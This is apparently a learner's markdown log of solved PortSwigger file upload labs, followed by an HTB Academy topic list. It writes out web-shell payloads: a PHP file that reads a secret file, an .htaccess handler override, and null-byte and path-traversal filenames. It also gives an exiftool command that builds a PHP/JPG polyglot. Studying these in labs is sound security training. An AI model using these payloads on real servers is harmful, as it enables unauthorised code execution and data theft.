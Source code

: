 It is during our darkest moments that we must focus to see the light. - Aristotle Onassis

# File Upload Vuln Summary:

| Day  | Content |
| ----- | ------- |
| 1 |   [Completed Port Swigger - File upload vulnerabilities](https://github.com/Th3lazykid/100DaysOfHacking/blob/main/Days/fileuploadweek.md#day---1-completed-port-swigger---file-upload-vulnerabilities)   |
| 2 | [Completed HTB Academy - File upload Attacks Module](https://github.com/Th3lazykid/100DaysOfHacking/blob/main/Days/fileuploadweek.md#day---2-completed-htb-academy---file-upload-attacks-module) |



## Day - 1: Completed Port Swigger - File upload vulnerabilities

Lab 1: Exploiting unrestricted file uploads to deploy a web shell

- cd Desktop - touch try.php - nano try.php
```
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

(https://www.php.net/manual/en/function.file-get-contents.php)

- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved. 

---

Lab 2: Exploiting flawed validation of file uploads

- Using the previous try.php
- Sending the request to repeater
- Changing the content-type to `image/jpeg`
- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved. 


---

Lab 3: Preventing file execution in user-accessible directories

- Using the previous try.php
- Sending the request to repeater
- Changing the filename to `filename="..%2ftry.php"` - Path Traversal. (Indicates that the file was uploaded to a higher directory in the filesystem hierarchy (/files), and subsequently executed by the server.)
- Navigate to `/files/try.php`
- Submit the secret - Solved.

---

Lab 4: Insufficient blacklisting of dangerous file types

- Using the previous try.php
- Sending the request to repeater
- Notice that php ext is restricted.
- Now in this lab to bypass this blacklist - gotta upload below file. 
	- .htaccess with content `AddType application/x-httpd-php .lol` in it. 
	- with the request we had in the repeater with try.php
	- chaning the filename to `.htaccess` and also the content with `AddType application/x-httpd-php .lol`
	- and uploading the same. 
- Back to same request with `try.php` in repeater - changing the filename to `try.lol`
- Notice that the same has been uploaded.
- Navigate to `/files/avatars/try.lol`
- Submit the secret - Solved.

---

Lab 5: Obfuscating file extensions

- Using the previous try.php
- Sending the request to repeater
- Notice that it says only JPG & PNG files are allowed
- Now in order to bypass this:
	- Chaning the filename to `try.php%00.jpg` - adding nullbyte will strip off the rest and try.php will be uploaded.
- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved.

---

Lab 6: Flawed validation of the file's contents

- This is very Interesting lab. In this lab it verifies that if it is a genuine image, hence comes polygot. (Polyglots, in a security context, are files that are a valid form of multiple different file types. - [Vickie li blog](https://vickieli.dev/hacking/polyglot/)) 
- Creating a polyglot PHP/JPG file using exiftool. (normal image, but contains your PHP payload in its metadata.)
	- `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o lmfao.php`
	- Here I downloaded a sample jpg from the internet and used in <YOUR-INPUT-IMAGE>
- Uploaded the lmfao.php
- Navigate to `/files/avatars/lmfao.php`
- Notice the secret is between Start and end in the first line itself
- Submit the secret - Solved.

---

Lab 7: Exploiting file upload race conditions

- Since new to race conditions, simply followed the solution given - also the note in the end of the solution is imp - adding `\r\n\r\n` sequence for GET request. 

---

## Day - 2: [Completed HTB Academy - File upload Attacks Module](https://academy.hackthebox.com/achievement/3444/136)

- I'm not sure if I can share my notes over here, since it's a paid lab [bought it with student subs], but below are the topics I learned - most of them are recap with more info on it. But I do highly suggest you people to go through this module once - pretty neat info. 

- Topics Learned/recaped:
	- Absent Validation
	- Upload Exploitation
		- Web Shell
		- Reverse Shell
	- Client-Side Validation
	- Blacklist Filters: _the web application checks if the extension exists anywhere within the file name._
	- Whitelist Filters: _the web application checks if the file name ends with the extension._
		- Double Extensions
		- Reverse Double Extensions
		- Character Injection
	- Type Filters
	- Decompression Bomb
	- Preventing File Upload Vulnerabilities
		- Extension Validation
		- Content Validation
		- Upload Disclosure
	- Lastly amazing Skills Assessment - Nailed it.

---

	






